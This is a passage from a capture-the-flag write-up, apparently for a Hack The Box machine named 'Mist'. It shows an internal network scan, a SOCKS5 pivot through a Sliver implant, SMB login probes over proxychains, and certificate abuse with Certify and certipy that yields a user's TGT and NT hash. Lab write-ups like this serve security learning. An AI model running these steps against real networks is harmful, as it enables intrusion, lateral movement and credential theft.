 ```powershell
./fscan.exe -h 192.168.100.0/24

192.168.100.100:88 open
192.168.100.100:445 open
192.168.100.101:445 open
192.168.100.100:139 open
192.168.100.101:443 open
192.168.100.100:135 open
192.168.100.101:139 open
192.168.100.101:135 open
192.168.100.101:80 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 192.168.100.100 [+] DC:MIST\DC01               
[*] NetInfo 
[*]192.168.100.101
   [->]MS01
   [->]192.168.100.101
[*] WebTitle http://192.168.100.101    code:302 len:0      title:None 跳转url: http://192.168.100.101/?file=mist
[*] WebTitle https://192.168.100.101   code:302 len:0      title:None 跳转url: https://192.168.100.101/?file=mist
[*] WebTitle https://192.168.100.101/?file=mist code:200 len:1249   title:Mist - Mist
[*] WebTitle http://192.168.100.101/?file=mist code:200 len:1249   title:Mist - Mist
```
Ok nice now let's forward 

```bash
# on sliver
[server] sliver (EMBARRASSING_ENTRY) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  

# on local machine
proxychains -q nxc smb 192.168.100.101 -u 'toto' -p ''
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:mist.htb) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [-] mist.htb\toto: STATUS_LOGON_FAILURE 

proxychains -q nxc smb 192.168.100.100 -u 'toto' -p ''
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
SMB         192.168.100.100 445    DC01             [-] mist.htb\toto: STATUS_LOGON_FAILURE
```
Ok so we can reach both machine

Let's have the hash of Brandon.Keywarp to authenticate as him on smb :

```bash
./certify.exe request /ca:DC01.mist.htb\mist-DC01-CA

# on local machine
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

proxychains -q certipy auth -pfx cert.pfx -dc-ip 192.168.100.100       
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: brandon.keywarp@mist.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'brandon.keywarp.ccache'
[*] Trying to retrieve NT hash for 'brandon.keywarp'
[*] Got hash for 'brandon.keywarp@mist.htb': aad3b435b51404eeaad3b435b51404ee:db[...]c9

```